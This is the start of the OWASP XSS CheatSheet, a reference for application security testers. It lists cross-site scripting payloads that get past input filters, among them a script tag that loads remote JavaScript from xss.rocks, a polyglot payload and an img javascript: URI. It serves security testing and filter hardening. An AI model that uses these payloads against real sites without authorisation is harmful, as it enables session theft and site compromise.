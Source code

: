 -------
description: XSS CheatSheet - In this CheatSheet, you will find a series of practical example commands for running XSS and getting the most of this.
-------

# XSS CheatSheet

## Introduction

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS CheatSheet, which was at: `http://ha.ckers.org/xss.html`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention CheatSheet, the [Cross Site Scripting Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's XSS CheatSheet, so we can thank RSnake for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack CheatSheet, and so the [OWASP CheatSheet Series](https://owasp.org/www-project-cheat-sheets/) was born.

This CheatSheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

```html
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in multiple contexts including html, script string, js and url. Thank you to [Gareth Heyes](https://twitter.com/garethheyes) for this [contribution](https://twitter.com/garethheyes/status/997466212190781445).

```html
`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

## Image XSS Using the JavaScript Directive

Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

```html
<img src="javascript:alert('XSS');" />
```
